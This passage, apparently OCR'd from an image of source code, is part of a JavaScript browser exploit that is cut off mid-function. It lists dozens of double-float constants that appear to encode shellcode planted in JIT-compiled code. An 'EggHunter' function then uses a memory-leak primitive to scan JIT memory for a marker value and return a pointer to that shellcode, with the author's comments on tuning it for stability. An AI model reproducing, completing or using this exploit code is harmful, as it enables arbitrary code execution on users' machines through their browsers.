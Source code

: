         X58 = -2.6689139052065564e-251;
        X59 = 1.0555057376604044e+27;
        X60 = 8.364524068863995e+42;
        X61 = 3.382975178824556e+43;
        X62 = -8.511722322449098e+115;
        X63 = -2.2763239573787572e+271;
        X64 = -6.163839243926498e-264;
        X65 = 1.5186209005088964e+258;
        X66 = 7.253360348539147e-192;
        X67 = -1.2560830051206045e+234;
        X68 = 1.102849544e-314;
        X69 = -2.276324008154652e+271;
        X70 = 2.8122150524016884e-71;
        X71 = 5.53602304257365e-310;
        X72 = -6.028598990540894e-264;
        X73 = 1.0553922879130128e+27;
        X74 = -1.098771600725952e-244;
        X75 = -2.5574368247075522e-254;
        X76 = 3.618778572061404e-171;
        X77 = -1.4656824334476123e+40;
        X78 = 4.6232700581905664e+42;
        X79 = -3.6562604268727894e+125;
        X80 = -2.927408487880894e+78;
        X81 = 1.087942540606703e-309;
        X82 = 6.440226123500225e+264;
        X83 = 3.879424446462186e+148;
        X84 = 3.234472631797124e+40;
        X85 = 1.4186706350383543e-307;
        X86 = 1.2617245769382784e-234;
        X87 = 1.3810793979336581e+43;
        X88 = 1.565026152201332e+43;
        X89 = 5.1402745833993635e+153;
        X90 = 9.63e-322;
    }

    function EggHunter(TargetAddressDbl) {
        HelperDbl[0] = TargetAddressDbl;

        for(var i = 0; i < 1000; i++) { // 1000 QWORDs give me the most stable result. The more double float constants are in the JIT'd function, the more handler code seems to precede them.
            DblVal = ExplicitLeakDbl(HelperDbl[0]); // The JIT'd ASM code being scanned is likely to contain 8 byte sequences which will not be interpreted as doubles (and will have tagged pointer bits set). Use explicit/strong primitive for these reads.

            if(DblVal == 5.40900888e-315) {
                HelperDword[0] = HelperDword[0] + 8; // Skip over egg bytes and return precise pointer to the shellcode
                return HelperDbl[0];
            }

            HelperDword[0] = HelperDword[0] + 8;
        }
